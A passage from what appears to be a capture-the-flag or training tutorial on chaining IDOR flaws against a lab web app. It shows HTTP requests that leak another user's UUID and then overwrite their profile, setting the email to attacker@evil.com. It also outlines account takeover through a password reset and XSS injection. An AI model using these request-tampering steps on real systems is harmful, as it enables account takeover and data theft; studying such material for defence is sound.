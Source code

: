 # Chaining IDOR Vulnerabilities

Sometimes, IDOR information disclosure (reading other users’ data) can be combined with IDOR insecure function calls (modifying other users’ data) for powerful attacks.

**Step 1 – Information Disclosure**

When the profile page loads, it fetches user data with:

<pre>GET /profile/api.php
Cookie: role=employee</pre>

There’s no token-based or per-user access control — only the role cookie.

If we change the UID in the request:

`GET /profile/api.php/profile/2`

We get another user’s details:

<pre>{
    "uid": "2",
    "uuid": "4a9bd19b3b8676199592a346051f950c",
    "role": "employee",
    "full_name": "Iona Franklyn",
    "email": "i_franklyn@employees.htb",
    "about": "It takes 20 years to build a reputation..."
}</pre>

Now we have their UUID, which we couldn’t guess before.

**Step 2 – Modifying Another User**

Using the leaked UUID, we send:

`PUT /profile/api.php/profile/2`

With modified details:

<pre>{
    "uid": "2",
    "uuid": "4a9bd19b3b8676199592a346051f950c",
    "role": "employee",
    "full_name": "Changed Name",
    "email": "attacker@evil.com",
    "about": "..."
}</pre>

Result: No access control errors. Changes persist.

**Potential Attacks**

Change a user’s email → trigger password reset → take over account
Inject an XSS payload in “about” → execute when they view their profile

**Step 3 – Finding Admin Accounts**

We enumerate all users (scriptable) and find:
